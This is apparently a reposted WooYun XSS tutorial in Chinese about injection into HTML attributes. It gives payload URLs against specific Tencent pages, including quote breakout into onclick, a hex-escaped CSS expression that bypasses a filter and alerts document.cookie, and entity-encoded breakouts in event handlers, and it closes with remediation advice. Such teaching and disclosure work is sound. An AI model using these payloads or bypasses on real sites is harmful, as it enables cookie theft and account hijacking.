






# 3\. 输出在 HTML 属性里的情况

> 来源：[3\. 输出在 HTML 属性里的情况](http://www.wooyun.org/bugs/wooyun-2010-015963)

## 简要描述

和前面的不一样的时，有时候，输出会出现在 HTML 标签的属性之中。

例如： `<input value="输出">` 、 `` ，再比如 `<body style="...[输出]...">` .. 这个时候怎么办呢？

## 详细说明

1\. 大网站一般不是吃素的。前面讲到的基本情况，一般都很少遇到了。

2\. 这个时候我们可以把目光发展一下，找一找在【输出】出现在 HTML 属性里的情况。

3\. 最为典型的一种情况，是下面这样的。

```
http://xxxx.com/search.php?word=乌云欢迎您 
```

HTML 代码里则是下面这样情况的。

```
.. 关键词：<input type="text" value="乌云欢迎您" /> 
```

如果这里的 word 没过滤双引号。就会有以下的情况发生。

```
http://xxxx.com/search.php?word=乌云欢迎您" onclick="alert(1) 
```

对应的源代码如下：

```
<input type="text" value="乌云欢迎您" onclick="alert(1)" /> 
```

解析：



那么当用户点击这个文本框时，就会触发 `alert(1)` 。

4\. 当然理想是美好的，现实总是残酷的，我水平有限，并没有在腾讯找到这样的例子。

因为绝大部分这样的情况， 腾讯都会做出相应的过滤。 过滤方法也挺简单，将 `"` 过滤为 `&quot;` 就行。 过滤后的代码如下：

```
<input type="text" value="乌云欢迎您&quot; onclick=&quot;alert(1)" /> 
```

5\. 一般来说，上面的情况，过滤了 `"` ，可以说是高枕无忧了，但是事实并非如此。某些情况下。我们依然可以继续 XSS。下面以腾讯 为例。

6\. 首先看第一种场景。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhiche n001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx 
```

这里的 bg 参数过滤了【几乎】所有的东西。但是它输出在了 `<body style="[这里]">`



更重要的是，这里没有过滤 `\` ，反斜线， 而 css 里，允许使用转义字符, `\ + ascii` 16 进制形式。这样一来，我们就可以构造利用语句啦。

这里过滤了 expression, 我们也可以轻松的用 `expr\65ssion` 绕过。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\7 7\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2 e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qin gfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipeng tx 
```

效果如下：



这种情况，遗憾之处在于，基于 css expression 的 XSS 已经进入暮年了，只有在 IE6，7 下方能触发，受众面小。这里只是作为一个案例来讲讲。

Tips: 至于这里的转义是如何写的：步骤如下：

例如 e 的 ascii 16 进制是 65, 我们就写为 `\65 expression -> expr\65ssion`。

本例缺陷点代码：

```
<body style="overflow:auto;background-color:#我是一个兵，爱国爱人民;"> 
```

7\. 再来看下一个在属性里的案例。这个例子也是比较常见的。比如：

```
<HTML 标签 onXXXX="...[输出在这里].."> 
<a href="javascript:[输出在这里]">xxxx </a> 
```

的例子。 正好，在腾讯的这个例子中，以上 2 个情况一起出现了。 我们以其中一种进行讲解。

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa 
```

看输出，如下，aaaaaaaa 出现在了 2 个点。



常规来说，因为 `onxxxx="[输出]"` 和 `href="javascript:[输出]"` 与 `<script>[输出]</script>` 没有太大区别。因为[输出]所在的地方，都是 javascript 脚本。

但是`<script>[输出]</script>` 如果被过滤，往往没有太好的办法。 而上面这 2 种情况，则有一个很好的办法绕过过滤。

Tips:

在 HTML 属性中，会自动对实体字符进行转义。一个简单的比方。

```
 
```

和

```
 
```

是等效的

换言之，只要上面的情况，没有过滤 `&`，`#` 等符号，我们就可以写入任意字符。 看看缺陷点的代码

```
<li><input type="text" id="pagenum" class="inputstyle0814" onkeydown="if ((event.keyCode==13) && (this.value!='')) location.href='http://stock.finance.qq.com/report/search.php?offset='+this.value+'&searchtype_yjbg=yjjg&searchvalue_y jbg=aaaaaaaaaa'"/></li> 
```

JS 部分我们可以做以下构造,由于'被过滤，我们可以将'写为 `&#x27;`

```
location.href='........&searchvalue_yjbg=aaaaaa'
location.href='........&searchvalue_yjbg=aaaaaa'+alert(1)+'' location.href='........&searchvalue_yjbg=aaaaaa&#x27;+alert(1)+&#x27;' 
```

步骤如下：



接着我们把代码转换为 url 的编码。 `& -> %26`, `# -> %23` 最后利用代码如下：

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaa%26%23x27;%2balert(1)%2b%26%23x27; 
```

用户点击页面[GO]按钮触发。



缺陷页面的 `<a href="">` 触发点的代码如下：

```
<li><div class="yebg"><a href="javascript:location='http://stock.finance.qq.com/report/search.php?offset='+document.getElementById('pagenum'). value+'&searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa'">GO</a></div></li> 
```

## 修复方案

1\. 对于输出在 HTML 属性中的情况，需要特殊情况特殊对待，该过滤`\`的时候，请过滤`\`, 该过滤`&`的情况，则过滤掉`&`

2\. 碰到有某些修复的人用正则去判断， `&#xNNN..`, 而实际上 `&#x0NN;` `&#x00NN`, （后面自己慢慢试。。） 都是可以的。 或者是 `&#10` 进制; 以及一些特殊的 HTML 实体，如 `&quot;` 等，都要注意到，好麻烦， 最好的办法，还是 `&`过滤为 `&amp;` ：）